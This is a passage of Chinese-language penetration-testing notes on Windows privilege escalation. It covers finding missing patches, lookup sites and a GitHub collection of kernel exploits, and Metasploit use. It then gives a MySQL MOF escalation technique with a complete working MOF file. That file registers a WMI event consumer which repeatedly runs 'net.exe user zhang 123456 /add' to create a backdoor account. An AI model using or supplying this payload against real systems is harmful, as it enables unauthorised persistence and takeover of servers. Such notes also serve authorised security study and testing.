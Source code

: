     方法二：通过命令查询出哪些补丁没有安装
2. 查找补丁对应的漏洞号 使用在线查询工具

    [http://blog.neargle.com/win-powerup-exp-index/#](http://blog.neargle.com/win-powerup-exp-index/#)

    [http://tools.sbbbb.cn/tiquan/](http://tools.sbbbb.cn/tiquan/)

    [http://bypass.tidesec.com/exp/](http://bypass.tidesec.com/exp/)
3. 查找对应提权exp

    可在搜索引擎查找

    github查找  [github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

    windows中提权exp的格式为

    ​![image](assets/image-20241028101313-4ybzlfc.png)​
4. 配合msf进行提权

#### 2.windows 数据库提权

##### mysql-mof提权步骤

1. 在可写目录中上传mof文件

    nullevt.mof   文件

    ```bash
    #pragma namespace("\\\\.\\root\\subscription")
    instance of __EventFilter as $EventFilter
    {
    EventNamespace = "Root\\Cimv2";
    Name = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
    };
    instance of ActiveScriptEventConsumer as $Consumer
    {
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user zhang 123456 /add\")";
    };
    instance of __FilterToConsumerBinding
    {
    Consumer = $Consumer;
    Filter = $EventFilter;
    };
    ```

